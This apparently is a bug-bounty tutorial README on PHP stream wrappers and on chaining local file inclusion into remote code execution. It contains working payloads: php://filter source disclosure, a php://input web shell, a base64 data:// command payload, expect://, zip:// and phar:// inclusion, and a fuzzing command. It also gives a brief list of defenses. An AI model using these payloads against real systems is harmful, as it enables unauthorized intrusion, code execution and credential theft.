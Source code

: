 # Mastering PHP Filters & Wrappers for LFI to RCE

PHP is one of the most widely used languages in web applications. Understanding its internal features like stream wrappers can help attackers go far beyond simple file inclusion vulnerabilities.

This guide covers PHP wrappers in depth and demonstrates how to weaponize them for LFI exploitation and potential RCE in real-world applications.

---

## 🔍 Why PHP Wrappers Matter

PHP provides several built-in stream wrappers that abstract file and data input/output. While useful for developers, these can be abused in vulnerable apps:

| Wrapper       | Purpose                                      |
| ------------- | -------------------------------------------- |
| php\://filter | Filters applied to I/O streams               |
| php\://input  | Read raw POST input                          |
| data://       | Include inline data                          |
| expect://     | Execute system commands (if enabled)         |
| zip\://       | Access compressed ZIP archive files          |
| phar://       | Deserialize PHAR metadata (object injection) |

---

## 🔐 `php://filter` for Source Disclosure

Allows reading raw PHP source by bypassing execution. Example:

```
php://filter/read=convert.base64-encode/resource=config
```

URL:

```
http://<IP>/index.php?file=php://filter/read=convert.base64-encode/resource=config
```

Then decode:

```bash
echo 'PD9waHAK...' | base64 -d
```

---

## 🧰 Other PHP Wrapper Techniques

### 1. `php://input`

Reads raw POST data. Can be included if the app does `include('php://input')`:

```php
<?php include('php://input'); ?>
```

Payload:

```bash
POST /index.php
<?php system($_GET['cmd']); ?>
```

Access shell:

```
/index.php?cmd=whoami
```

### 2. `expect://`

Runs shell commands directly (rare, depends on configuration).

```php
include('expect://ls');
```

### 3. `data://`

Inline payloads using base64.

```php
include('data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==');
```

### 4. `zip://`

Treats ZIP files as virtual FS. Useful with file upload + LFI chain.

```php
include('zip://uploads/shell.zip#shell.php');
```

### 5. `phar://`

Leads to deserialization vulnerabilities. Requires object injection.

```php
include('phar://uploads/malicious.phar');
```

---

## 🗂️ Fuzzing PHP Pages

Use tools like `ffuf` or `gobuster` to discover includable files:

```bash
ffuf -w /path/to/wordlist.txt -u http://<IP>/FUZZ.php
```

Monitor for:

* `200 OK` (exists and renders)
* `403 Forbidden` (restricted, but can be included)
* `302 Found` (redirects, still exploitable via LFI)

---

## 🔐 Reading & Decoding Files

Once the LFI is confirmed, use:

```
php://filter/read=convert.base64-encode/resource=filename
```

Then decode to view sensitive data like credentials, tokens, API keys:

```bash
echo '...' | base64 -d
```

---

## 💣 From LFI to RCE — Chaining Attack Vectors

1. LFI with php\://filter → Read source
2. Find file upload functionality
3. Upload malicious PHAR archive
4. Use `phar://` to deserialize and trigger RCE

---

## 🧱 Defense Measures

* Disable `allow_url_include` & `allow_url_fopen`
* Never use user input directly in `include()`, `require()`
* Apply strict whitelisting
* Validate uploaded files
* Use hardened `php.ini` configs

---

## 📌 Real Bug Bounty Value

Exploiting PHP wrappers has led to real-world bounties through:

* Source code leaks
* SSRF + LFI chains
* RCE via PHAR + file uploads
* Hidden endpoint discovery

---

## 📢 Follow for More

This guide is maintained by **[@cybersecplayground](https://t.me/cybersecplayground)** — your daily source for advanced:

* 🔍 Recon & Exploitation
* 🧪 Web Security Payloads
* 🐞 Bug Bounty Techniques
* 💥 Real Attack Chains

Star ⭐ the repo and join us on Telegram for more content.

---

\#bugbounty #php #websecurity #lfi #rce #phpwrappers #infosec #cybersecurity
